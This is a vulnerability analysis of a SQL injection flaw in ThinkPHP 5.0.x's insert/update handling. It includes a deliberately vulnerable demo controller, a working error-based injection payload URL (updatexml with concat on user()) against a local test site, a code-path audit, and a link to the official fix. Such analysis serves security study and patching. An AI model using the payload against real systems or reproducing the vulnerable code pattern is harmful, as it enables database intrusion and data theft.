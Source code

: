 # ThinkPHP5.0.x SQL Injection

Author: H3rmesk1t

Data: 2021.08.09

# Vulnerability Description
Although the `ThinkPHP 5.0.x framework uses parameterized query method to operate the database, in the `insert` and `update` methods, the passed parameters are controllable and are not strictly filtered, which ultimately leads to SQL injection vulnerabilities.
# Initial configuration
- Here we use `ThinkPHP5.0.14` as an example, [click here to download](http://www.thinkphp.cn/download/1107.html)
- In the downloaded source code, you need to modify the content of `Application\index\controller\Index.php`

```php
<?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $name = input("get.name/a");
        Db::table("users")->where(["id"=>1])->insert(["username"=>$name]);
        return '<style type="text/css">*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:)</h1><pThinkPHP V5<br/><span style="font-size:30px">Ten years of hard work - A high-performance framework designed for API development</span></p><span style="font-size:22px;">[ V5.0 version is exclusively sponsored by <a href="http://www.qiniu.com" target="qiniu">Qiu Cloud</a]</span></div><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_bd568ce7058a1091"></thinkad>';
    }
}
```

Configure database-related files and enable thinkphp debugging function

![Insert the picture description here](https://img-blog.csdnimg.cn/390fa95b211f44de8894013f8d5c7507.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![Insert the picture description here](https://img-blog.csdnimg.cn/1ed1cde777ce474d8df1b1a50e688c24.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Exploit

Payload:
```nash
http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=inc&name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&name[2]=1
or
http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=dec&name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&name[2]=1
```

![Insert the picture description here](https://img-blog.csdnimg.cn/bd5215d598004de2b117678593b05e3c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis
## ThinkPHP5.0.x directory structure

````less
thinkphp application deployment directory
├─application application directory (can be set)
│ ├─common Public module directory (can be changed)
│ ├─index module directory (can be changed)
│ │ ├─config.php module configuration file
│ │ ├─common.php module function file
│ │ ├─controller controller directory
│ │ ├─model model directory
│ │ ├─view View Directory
│ │ └─ ... More library catalogs
│ ├─command.php command line tool configuration file
│ ├─common.php Application public (function) file
│ ├─config.php application (public) configuration file
│ ├─database.php database configuration file
│ ├─tags.php Application behavior extension definition file
│ └─route.php routing configuration file
├─extend Extended Class Library Directory (definable)
├─public WEB deployment directory (external access directory)
│ ├─static static resource storage directory (css,js,image)
│ ├─index.php application entry file
│ ├─router.php Quick test file
│ └─.htaccess is used for rewriting of apache
├─runtime application runtime directory (writable, setable)
├─vendor Third-party library directory (Composer)
├─thinkphp framework system directory
│ ├─lang Language Pack Directory
│ ├─library framework core class library directory
│ │ ├─think Think class library package directory
│ └─traits system Traits directory
│ ├─tpl system template directory
│ ├─.htaccess is used for rewriting of apache
│ ├─.travis.yml CI definition file
│ ├─base.php basic definition file
│ ├─composer.json composer definition file
│ ├─console.php console entry file
│ ├─convention.php convention configuration file
│ ├─helper.php helper function file (optional)
│ ├─LICENSE.txt Authorization Document
│ ├─phpunit.xml unit test configuration file
│ ├─README.md README file
│ └─start.php framework boot file
├─build.php Automatically generate definition files (reference)
├─composer.json composer definition file
├─LICENSE.txt Authorization Document
├─README.md README file
├─think
Command line entry file
```
## Payload Instructions
Payload: `http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=inc&name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&name[2]=1`
````ha
http://localhost/thinkphp/ public/ index.php/ index/ index/ index/ index/ index
       Domain Name Website Directory External Access Directory Entry File Front Desk Controller Method Name
```
## Application\index\controller\Index.php Supplementary Code Description

```php
$name = input("get.name/a");
input() is a helper function of the TP framework. get.name/a means to get the name variable passed in by get and cast it to an array type
```

```php
Db::table("users")->where(["id"=>1])->insert(["username"=>$name]);
The TP framework uses PDO to query the database
```
## Local code audit

First, the parameters are obtained through the helper function `input` of the TP framework. The name variable is as follows

![Insert the picture description here](https://img-blog.csdnimg.cn/a40079999bc945c88e1c3b0789c88f62.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the `where` method in `thinkphp/library/think/db/Query.php`, then follow up on the `insert` method, find `$sql = $this->builder->insert($data, $options, $replace);`, and follow up

![Insert the picture description here](https://img-blog.csdnimg.cn/a3e9fa12a7ec41c7b4385048f1229346.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up to `thinkphp/library/think/db/Builder.php`, find `$data = $this->parseData($data, $options);`, follow up

![Insert the picture description here](https://img-blog.csdnimg.cn/4576f60006e34634a1d4c21d25e03386.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the `parseData` method, you can see that `$val` is an array, and according to the `$val[0]` value is inc, enter the `parseKey` method through the switch statement

![Insert the picture description here](https://img-blog.csdnimg.cn/325df7e466f64041941961e11cea3960.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the parseKey method of `thinkphp/library/think/db/builder/Mysql.php`. There is no more filtering and checking for the incoming `$key`, and the final return is still `1 and (updatexml(1,concat(0x7,user(),0x7e),1))`

![Insert the picture description here](https://img-blog.csdnimg.cn/bfcafb742dc64f599be387989ec03ec7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Return to the `parseData` method, `floatval($val[2])` returns `1`, which is exactly why Payload passes in `username[2]=1`, and then splices it with the previous result of the `parseKey` method and returns it to the result.


![Insert the picture description here](https://img-blog.csdnimg.cn/7281229d1a9b40a28b9a0fa5801abd22.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Go back to the `insert` method of `thinkphp/library/think/db/Builder.php`, you can see that the returned `$sql` successfully caused sql injection.

![Insert the picture description here](https://img-blog.csdnimg.cn/3d249e779c284385bb93b91e92ab4927.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# Vulnerability Fix

- Reference official commit: [https://github.com/top-think/framework/commit/363fd4d90312f2cfa427535b7ea01a097ca8db1b](https://github.com/top-think/framework/commit/363fd4d90312f2cfa427535b7ea01a097ca8db1b)
- The value of `$val[1]` was reconfirmed before performing dec and inc operations

![Insert the picture description here](https://img-blog.csdnimg.cn/c5228fad76194f18b24b91b8e911ec8c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)